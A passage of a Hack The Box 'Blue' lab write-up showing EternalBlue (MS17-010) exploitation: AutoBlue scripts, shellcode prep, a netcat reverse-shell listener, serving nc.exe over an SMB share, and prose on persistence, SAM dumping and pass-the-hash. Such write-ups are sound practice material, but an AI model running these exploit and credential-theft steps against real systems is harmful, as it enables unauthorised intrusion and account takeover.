 > **Attacker Machine**:

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
python2 eternal_checker.py 10.129.97.111
./shell_prep.sh
# y  10.10.14.84 443 444 1 1

sudo rlwrap -cAr nc -nlvp 443
python2 eternalblue_exploit7.py 10.129.97.111
python2 eternalblue_exploit7.py 10.129.97.111 ./shellcode/sc_all.bin        # :(
python2 eternalblue_exploit7.py 10.129.97.111 ./shellcode/sc_x64.bin        # :)
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
```

> **Attacker Machine**:

```bash
nvim zzz_exploit.py
locate nc.exe /usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
sudo impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
python2 zzz_exploit.py 10.129.97.111 browser
# :(
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Continuing to enumerate the system is no longer necessary, as the vulnerability exploit allows me to access with full privileges and I can view the contents of any file, including the two flags to validate against **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the compromise of the box. To make the most of the lab, I am going to practice some **Persistence** techniques, the first is to set up an account on the target machine and then validate with `crackmapexec`. Once the account is validated, I need to modify some values in the **Windows Registry** so that I can add the new account to the **Administrators group**. Once this is done, I can verify again with `crackmapexec` that I have successfully **`pwned`** the box, and then with the same tool I can use different modules to view the contents of the **SAM** database. With the password hash of the **Administrator** user I can get a shell with the `pth-winexe` tool from **[pth-toolkit](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/){:target="_blank"}**.
